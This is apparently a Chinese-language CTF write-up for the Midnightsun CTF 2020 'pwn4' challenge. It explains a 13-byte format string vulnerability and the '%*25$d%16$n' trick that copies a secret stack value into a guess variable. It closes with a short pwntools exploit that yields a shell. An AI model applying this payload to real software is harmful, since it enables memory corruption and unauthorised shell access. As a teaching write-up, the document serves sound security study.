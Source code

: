
## pwn4
- 题目描述：
  
    > An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
- 题目附件：[pwn4](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn4/pwn4)
- 考察点：格式化字符串
- 难度：好难呀
- 初始分值：100
- 最终分值：172
- 完成人数：28

### 程序分析

限制十分苛刻的一个格式化字符串漏洞，字符串长度只有13：

![](http://image.taqini.space/img/2020-04-05_19-09.png)

* `v10`是`mmap+mprotect`的一个随机整数，只读

* 格式化字符串漏洞在`log_attempt`中

* `v8`等于`v10`时给shell，但是`v8`是个4位数，基本上等于不了`v10`

* `v10`在栈中可以通过`%25$p`泄漏，`v8`也在栈中可通过`%16$n`修改

* 程序是32位静态编译的，没有GOT表可改
* 格式化字符串长度为13，且只能用一次

### 解题思路

由于漏洞只能利用一次，所以必须在**泄漏`v10`的同时修改`v8`**，比赛的时候找了半天也不知道怎么搞...

而且如果用常规的`%<N>c`的方法去修改`v8`（`N`的长度在`1-10`之间），`13`字节的字符串根本不够用...  

> `|(·_·) |·_·) |_·) |·) | )` 太难了...

赛后看[wp](https://ctftime.org/writeup/19333?c=4566)，学到了新姿势：

> Basic idea:
> Copy the secret (4 bytes) from the stack to our guess variable (also on the stack) and pass the check.
>
>  `%<N>d`   normally this lets us print N characters total (a decimal int padded to N spaces).
>  `%*25$d`  lets us choose the value of N from the stack, we choose 25$ -> position of the secret value, this will therefore print a number of chars equal to the secret value.
>  `%16$n`   will write the number of printed chars to our variable on the stack (position 16) that is then compared with the secret.
>
> This will print **A LOT** of characters back (like 500MB of spaces), but works after trying a few times!

------

#### 记笔记！`*`的用法

* `%<N>d`这个很常用，打印长度为N的字符串，和`%<N>c`差不多

* `%*25$d`从栈中取变量作为`N`，比如`25$`处的值是`0x100`，那么这个格式化字符串就相当于`%256d`

>那么可以理解为`*`相当于c语言取值符号...嘛？

刨根问底一下，查看`man`文档，找到`*`的用方法：

![](http://image.taqini.space/img/20200405185627.png)

根据文档写个栗子：

```c
int main(){
    int width=10;
    int num=2333;
    puts("\ncase1:");
    printf("%*d", width, num);    
    puts("\ncase2:");
    printf("%2$*1$d", width, num);
}
```

输出如下：

```
case1:
      2333
case2:
      2333
```

#### 小结

* `*`如果单独使用，则**按顺序**取参数列表中的参数
* `*`如果配合`$`使用，则取参数列表中**相应位置**的参数，如`*1$`
* 取出的参数将格式化为**十进制数**，用作限制**字符串宽度**

#### 用途

* 缩短格式化字符串长度

------

回到题目，`%*25$d%16$n`可以把`v10`的值直接复制给`v8`

用`%n`可能会一次打印好多字符，不过多试几次，当`v10`很小的时候很快的打印完了

写exp时可以使用`pwntools`的`clean`函数接受数据

### exp

```python
fmt = "%*25$d%16$n"
sla('user: ',fmt)
#debug('b *0x08048a63')
sla('code: ','2333')

p.clean(10)
p.interactive()
```

> clean(10): **接受全部数据**并**清空缓冲区**，timeout为10秒